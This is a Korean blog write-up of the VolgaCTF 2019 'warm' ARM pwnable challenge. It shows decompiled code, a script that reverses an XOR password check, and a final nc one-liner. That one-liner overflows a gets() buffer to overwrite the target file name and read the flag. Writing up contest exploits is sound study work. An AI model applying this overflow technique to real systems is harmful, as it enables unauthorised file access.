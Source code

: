 ```yaml
---
layout: post
title: ! "[Volga ctf] warm write up"
excerpt_separator: <!--more-->
comments : true
tags:
  - volga
  - warm
  - pwnable
  - chaem
---
```


ctf가 끝난지 한참 뒤에 쓰는 volga ctf 2019 qual의 warm이라는 pwnable문제이다.  

<!--more-->

일단 `file` 명령어로 보니, ARM 바이너리라는 것을 알 수 있었다.  

```
root@ubuntu:/home/ubuntu/study/ctf/warm# file warm 
warm: ELF 32-bit LSB shared object, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-armhf.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=c549628c0b3841a5fd9a23f0faaf6b51eb858e94, stripped
```

IDA의 hexray기능을 이용을 이용하여 코드를 보니, 이렇게 이쁘게 다 보여주었당...  
다른 writeup을 보다가 `Ghildra(기드라)`라는 툴도 알게되었다. IDA랑은 다르게 오픈소스로 제공되다니, 짱짱 *.* 다음에 꼭 한번 써봐야겠당 ㅎㅎ  
아무튼 본론으로 돌아와서, 단순한 연산을 통해 문자열을 검사하는 것을 알 수 있다.  

```c
signed int __fastcall sub_788(const char *a1)
{
  char *s; // [sp+4h] [bp+4h]

  s = (char *)a1;
  if ( strlen(a1) <= 0xF )
    return 1;
  if ( (unsigned __int8)(*s ^ 0x23) != 0x55
    || (unsigned __int8)(s[1] ^ *s) != 0x4E
    || (unsigned __int8)(s[2] ^ s[1]) != 0x1E
    || (unsigned __int8)(s[3] ^ s[2]) != 0x15
    || (unsigned __int8)(s[4] ^ s[3]) != 0x5E
    || (unsigned __int8)(s[5] ^ s[4]) != 0x1C
    || (unsigned __int8)(s[6] ^ s[5]) != 0x21
    || (unsigned __int8)(s[7] ^ s[6]) != 1
    || (unsigned __int8)(s[8] ^ s[7]) != 0x34
    || (unsigned __int8)(s[9] ^ s[8]) != 7
    || (unsigned __int8)(s[10] ^ s[9]) != 0x35
    || (unsigned __int8)(s[11] ^ s[10]) != 0x11
    || (unsigned __int8)(s[12] ^ s[11]) != 0x37
    || (unsigned __int8)(s[13] ^ s[12]) != 0x3C
    || (unsigned __int8)(s[14] ^ s[13]) != 0x72
    || (unsigned __int8)(s[15] ^ s[14]) != 0x47 )
  {
    return 2;
  }
  return 0;
}
```
이걸 다시 역연산 해보면!  
```python
input =[0x76,0x4e, 0x1e, 0x15, 0x5e, 0x1c, 0x21, 1, 0x34, 7, 0x35, 0x11, 0x37, 0x3c, 0x72, 0x47]
pw = chr(input[0])
result = input[0]
for i in range(1,len(input)):
    val = result ^ input[i]
    pw=pw+chr(val)
    result = val

print(pw)
```
이런 문자열이 나오는 것을 알 수 있다!  
```
root@ubuntu:/home/ubuntu/study/ctf/warm# python test.py 
v8&3mqPQebWFqM?x
```
지금은 서버가 닫혀있지만, 위의 값을 입력하면 `Seek file with something more sacred!`라는 문구를 출력해준다. 여기서 `scared`가 힌트가 된다.  

```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```

우선 다음 함수를 보면, gets()함수를 사용함으로써, overflow가 발생하는 것을 알 수 있다.  

```c
int sub_9EC()
{
  _IO_FILE *fp; // [sp+Ch] [bp+Ch]
  int c; // [sp+10h] [bp+10h]
  int v3; // [sp+14h] [bp+14h]
  int v4; // [sp+78h] [bp+78h]

  setvbuf((FILE *)stdout, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      sub_8F0((char *)&v4);
      puts("Hi there! I've been waiting for your password!");
      gets((char *)&v3);
      if ( !sub_788((const char *)&v3) )
        break;
      sub_978(1, 0);
    }
    fp = (_IO_FILE *)fopen((const char *)&v4, "rb");
    if ( fp )
      break;
    sub_978(2, &v4);
  }
  while ( 1 )
  {
    c = IO_getc(fp);
    if ( c == -1 )
      break;
    putchar(c);
  }
  fclose((FILE *)fp);
  return 0;
}
```

buffer는 100 bytes로, `v8&3mqPQebWFqM?x` 16 bytes를 포함하여 overflow 시켜준다.  

```c
char *__fastcall sub_8F0(char *a1)
{
  char *result; // r0
  char *dest; // [sp+4h] [bp+4h]
  const char *src; // [sp+Ch] [bp+Ch]
  int v4; // [sp+10h] [bp+10h]
  char v5; // [sp+14h] [bp+14h]
  int v6; // [sp+18h] [bp+18h]

  dest = a1;
  strcpy(&v6, "FLAG_FILE");
  src = getenv((const char *)&v6);
  v4 = *(_DWORD *)"flag";
  v5 = aFlag[4];
  if ( src )
    result = strcpy(dest, src);
  else
    result = strcpy(dest, (const char *)&v4);
  return result;
}
```

그리고 마지막에 파일 이름을 써주면 flag를 얻을 수 있게 된다.  

```
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```
